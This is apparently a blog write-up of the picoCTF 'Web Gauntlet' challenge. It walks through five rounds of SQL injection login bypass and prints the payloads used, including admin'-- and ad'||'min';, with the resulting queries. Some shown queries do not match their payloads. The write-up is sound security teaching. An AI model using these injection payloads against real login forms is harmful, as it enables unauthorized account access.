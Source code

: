 ```yaml
---

title: "Web Gauntlet"  
date: "2024-10-16"  
thumbnail: "/assets/img/thumbnail/Web_Gauntlet.png"

---
```


# Web Gauntlet

---

**Challenges Difficulty: Medium**  
**Category: Web Exploitation**

## Introduction  
This series focuses on the fundamentals of SQL Injection vulnerability. Check out [A03:2021-Injection](https://owasp.org/www-community/attacks/SQL_Injection).

## WALKTHROUGH  
This challenge is from the picoCTF 2020 Mini-Competition.

#### Hints:
1. You are not allowed to log in with valid credentials.
2. Write down the injections you use in case you lose your progress.
3. For some filters, it may be hard to see the characters. Always (always) look at the raw hex in the response.
4. SQLite is used.
5. If your cookie keeps getting reset, try using a private browser window.

![Challenge 1](/assets/img/posts/post-1/chal.png)

The challenge gives us two links as shown above. The first one is a login page, and the second shows us what the round filters.  
For the first round, it filters out **or**, so we can still use **--** to comment out the rest of the query.

---

**Username:** `admin'--`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'-- AND password='123'
```

---

Now we are in round 2, and it filters out the following: **or**, **like**, **=**, and **--**.  
We shall try to use an alternative method, like **union**, to continue.

---

**Username:** `admin'union select * from users where '1;`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

In round 3, it filters **or**, **=**, **like**, **>**, **<**, and **--**. We can still comment using **;**.

---

**Username:** `admin';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

Round 4 is a little more creative as it filters out **or**, **=**, **like**, **>**, **<**, **--**, and **admin**.  
Admin?? 🙂 Don’t panic, no problem! 😅  
In SQL, the `||` operator is commonly used for string concatenation, especially in databases like SQLite. If the application’s underlying SQL query uses this operator correctly, entering `ad'||'min'` would result in the following behavior:

```sql
SELECT * FROM users WHERE username='admin';
```

And this is what we want.
---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

---

We are in the final round—good job! ✌  
In the final round, it filters **and**, **=**, **like**, **>**, **<**, **--**, **union**, and **admin**, but we will use the same method as in the previous round.

---

**Username:** `ad'||'min';`  
**Password:** anything, e.g., `123`  
Then the query should look like this:

```sql
SELECT * FROM users WHERE username='admin'; AND password='123'
```

Congrats! You won! Check out `filter.php`.  
![solution](/assets/img/posts/post-2/sol.png)

Many thanks to [onealmond](https://github.com/onealmond) as his write-up helped me a lot in solving this challenge.

---